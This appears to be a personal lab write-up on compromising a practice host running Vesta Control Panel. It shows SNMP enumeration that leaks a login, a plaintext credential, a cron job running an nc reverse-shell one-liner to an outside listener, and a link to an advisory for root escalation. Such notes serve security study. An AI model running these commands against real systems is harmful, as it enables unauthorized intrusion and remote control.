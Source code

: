## Takeaway
- Sometimes, the first letter of username will be capitalized.
- Always search for extended MIB objects when enumerate for `SNMP`.
- When searching for exploit of a software, do not just look for `exploit-db` or `github` but also pay attention to `Security Blog Posts`
## Metadata
- Web App powered by `vesta` control in port `80`
	- same with port `8080`, `8443`.
- `vesta control` login at port `8083`.
- Run `snmpwalk -v 1 -c public 192.168.250.156 NET-SNMP-EXTEND-MIB::nsExtendObjects` to discover potential credential.![[Pasted image 20240314152456.png]]
# Exploitation
## Shell as Jack
- Navigate to `https://192.168.250.156:8083/login` and login using the found credential `Jack:3PUKsX98BMupBiCf`.
- After login as `Jack`, navigate to `https://192.168.250.156:8083/list/cron/` and create a `cron` job running command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.242 443 >/tmp/f` at a one minute interval.![[Pasted image 20240314161310.png]]![[Pasted image 20240314160906.png]]
- Wait for the `cron` job to execute and catch a reverse shell as `Jack`.![[Pasted image 20240314161124.png]]![[Pasted image 20240314161230.png]]
# PrivEsc
- https://ssd-disclosure.com/ssd-advisory-vestacp-multiple-vulnerabilities/ leads to strictly `root` shell.![[Pasted image 20240314170153.png]]